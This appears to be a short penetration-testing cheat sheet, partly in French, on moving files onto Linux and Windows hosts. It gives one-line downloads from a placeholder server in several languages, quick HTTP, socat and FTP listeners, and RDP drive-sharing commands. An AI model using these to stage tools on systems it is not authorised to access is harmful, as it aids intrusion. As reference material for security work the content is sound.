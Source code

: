 # Linux File Transfers

## Basic

```sh
axel -a -n 20 -o output http://taget/file.pdf
```

php

```sh
php -r '$file = file_get_contents("http://SERVER/file.ext"); file_put_contents("output_file.ext",$file);'
```

python

```sh
import urllib.request
urllib.request.urlretrieve("http://SERVER/file.ext", "output_file.ext")
```

ruby

```sh
ruby -e 'require "net/http"; File.write("output_file.ext", Net::HTTP.get(URI.parse("http://SERVER/file.ext")))'
```

perl

```sh
perl -e 'use LWP::Simple; getstore("http://SERVER/file.ext", "output_file.ext");'
```

ruby

```sh 
ruby -run -ehttpd . -p8080
```

socat

```sh
socat TCP-LISTEN:8080,reuseaddr,fork
```

**RDP**

rdesktop

```sh
rdesktop 10.10.10.132 -r disk:linux='/home/user/rdesktop/files'
```

```sh
[cmd] \\tsclient\linux\file.exe
```

xfreerdp

```sh
xfreerdp /v:10.10.x.x /u:user /p:password /cert:ignore +clipboard /dynamic-resolution /drive:LOCAL_DIRECTORY,SHARE_NAME
```

Acceder a un partager  RDP

```sh
[cmd] \\tsclient\SHARE_NAME\file.exe
```

## Transferts de fichiers protégés

pyftpdlib

```sh
python3 -m pyftpdlib --user=pentester --password=p4ssw0rd -w

PS> ftp -s:ftp-script.txt
```